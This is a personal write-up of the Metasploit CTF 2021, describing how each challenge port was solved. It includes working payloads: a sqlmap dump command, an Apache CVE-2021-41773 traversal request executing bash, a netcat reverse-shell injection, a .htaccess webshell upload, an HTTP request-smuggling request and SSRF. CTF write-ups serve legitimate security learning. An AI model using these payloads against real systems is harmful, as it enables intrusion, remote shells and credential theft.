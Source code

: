 # Metasploit CTF 2021

Managed to get 17th this time. Not too bad, but no prizes. There were three flags I didn't manage to find: I had the right approach for 15010 but the wrong wordlists apparently, the SSH server on 15122 relied on apparently guessing that the target would connect back to your jump host, which I did not guess, and the reversing challenge required expertise in a technology I did not possess and could not get in the time available :)

Other than that though, very fun! Nice to do some request smuggling, in particular.

## 80 - 4_of_hearts

just on the home page

## 443 - 2_of_spades

nmap detected a git repo
git-dumper retrieved it,
earliest commit contained a .env file with the flag name,
this could then be retrieved from the main site

## 8080 - 9_of_diamonds

website used plaintext cookies to detect if authenticated and if admin
set these both to true then accessed /admin to get the flag

## 10010 - 4_of_diamonds

a site where you could register and view an empty homepage (under construction)
the register page would submit fields like `account[name]`. on the homepage there was a comment showing the json structure of the user, which included a `role` field
by altering register to also submit `account[role]=admin` i was able to create an admin account, access the admin panel and get the flag

## 11111 - 5_of_diamonds

sql injection on the username field of the login form
exploitable with `sqlmap -u http://172.17.23.149:11111/login -p username --code=303 --level 5 --risk 3 --forms --dump`
this got the admin password from the user table, but i had to use repeater to submit this as the form truncated the characters
the admin panel contained a link to the flag

## 12380 - 10_of_clubs

a static page. text indicated it was old school, author prefered 'systems-programming'
this site was vulnerable to CVE-2021-41773/42013, a apache path traversal bug exploiting active cgi-bin
requested `GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash` with content type text/plain and sent `echo Content-Type: image/png; echo; cat /secret/safe/flag.png` to get the flag

## 15000 - 5_of_clubs

a student database over netcat. every field has alphanumeric filtering, and if bad characters were entered, would force you to retry. except for one field: the surname field of the delete operation
if a student existed (so had to be created first) then blind os injection could be achieved with a payload like: `surname.txt & rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.17.23.148 4444 >/tmp/f &`.
this got a rev shell and the flag.

## 15010 - UNSOLVED

    file storage, 4-32 username 64-128 password... something there? limit is not enforced server side
    appears to create a directory that you can save files into; files are stripped of extensions, and only support alpha numeric
    can access files uploaded by other users, if you know the name of the user and file

## 15122 - UNSOLVED

    ssh no creds yet

## 20000 - 2_of_clubs and black joker

download link for a binary for kali/debian, that required a gui. when run on wsl through a ssh proxy to the jump host, would be a hard to play clicker game
automated with a go script after using tshark to capture the message traffic (`sudo tshark -i lo -w clickracer.pcapng`) (for easy mode, just json messages)
this ran and received a message detailing the flag location

for hard mode this involved raw binary messages, but was still as solvable. this got the joker flag

## 20001 - 2_of_clubs and black joker

target address of 20000 client

## 20011 - ace_of_hearts

a gallery site, where you could look up a gallery by url. there was also an admin section

by using the look up as a SSRF vector, and using the url http://127.0.0.1:20011/admin I was able to access the admin page. Requesting this in the browser I was able to unhide the gallery of user 'john', which contained the flag.

## 20022 - jack_of_hearts

home page redirects to challenge.php, which serves a troll face image
'user' cookie was base64->base64->a php session object
changing the admin flag in the object would result in a status message saying 'on the right path'
changing the profile image to /etc/passwd would display an error that reading outside /var/www/html was prohibited, and noting the flag is at /flag.png. using the path `/var/www/html/../../../flag.png`

## 20055 - 9_of_spades

this secure upload service blocked most common extensions. however it did not block .htaccess
i used this to upload an htaccess that mapped a new extension to the php engine: `AddType application/x-httpd-php .lol`, then uploaded a webshell with this extension to reach the flag in the root directory

## 20123 - 8_of_clubs

ssh server, root:root (shown in banner)
challenge is reversing the encryption on the flag, with the python script provided
the salt is fixed, but a token is not. however, if --debug is used this breaks the token generation and that becomes fixed too
accordingly, chaging encrypt to decrypt in the script and then running with --debug decrypts the flag

## 30033 - UNSOLVED

    hosted version of 30034, accessible over nc

## 30034 - UNSOLVED

    directory listing with a challenge binary and a pipfile

## 33337 - 3_of_hearts

can access via host threeofhearts.ctf.net:33337
save.php writes any args, cookie and x-access to /out/save.txt
there is a private.php that is not accessible
the server is ATS/7.11 (Apache Traffic Server) over nginx. ATS is vulnerable to request smuggling
by submitting the following request:

```
POST /save.php HTTP/1.1
Host: threeofhearts.ctf.net:33337
Transfer-Encoding: chunked
Content-Length: 20

0

POST /save.php?
```

I was able to capture an admin request to private.php in the save log. With the admin's cookie I could access private and the flag

## 35000 - ace_of_diamonds

this hosted a pcap file containing smb files, however exporting them left them mangled
a few files in the export were readable, which talked about smb padding. by extracting the smb padding headers with `tshark -r capture.pcap -T fields -e smb.padding > padding.txt` then manipulating this with cyberchef, i found a hex-encoded message revealing the flag url